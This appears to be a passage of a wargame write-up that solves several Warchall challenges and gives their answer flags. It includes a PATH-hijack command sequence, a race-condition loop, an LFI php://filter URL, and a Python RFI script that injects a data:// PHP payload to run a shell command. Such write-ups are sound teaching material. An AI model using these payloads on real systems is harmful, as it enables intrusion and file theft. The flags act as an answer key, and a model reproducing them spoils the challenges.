 ```
export PATH=~/bin:$PATH

cat ~/bin/wc
cat /home/level/11/solution.txt > ~/level11.txt

/home/level/11/charp2
```

```
YourP4thHasBeenCh0sen
```


### Py-Tong (Exploit, Python, Warchall)
race condition

1. FIFO Way

mkfifo p

echo "hi" > p

echo "hello" > p

2. Using bash change file content (work for pytong2)
```
#/bin/bash

i=1
while [ 1 ]
do
    i=$((i+1))
    echo $i > /home/user/ranger/p
done
```

```
KnowYourFilesChiller
```


### Warchall: Live LFI (Linux, Exploit, Warchall)
http://lfi.warchall.net/?lang=php://filter/convert.base64-encode/resource=solution.php

```
SteppinStones42Pie
```


### Warchall: Live RFI (Linux, Exploit, Warchall)
```py
import requests

params = {
    "lang": "data://text/plain,<?php echo `cat solution.php` ?>"
}

r = requests.get("http://rfi.warchall.net/index.php", params=params, verify=False)
print r.content
```

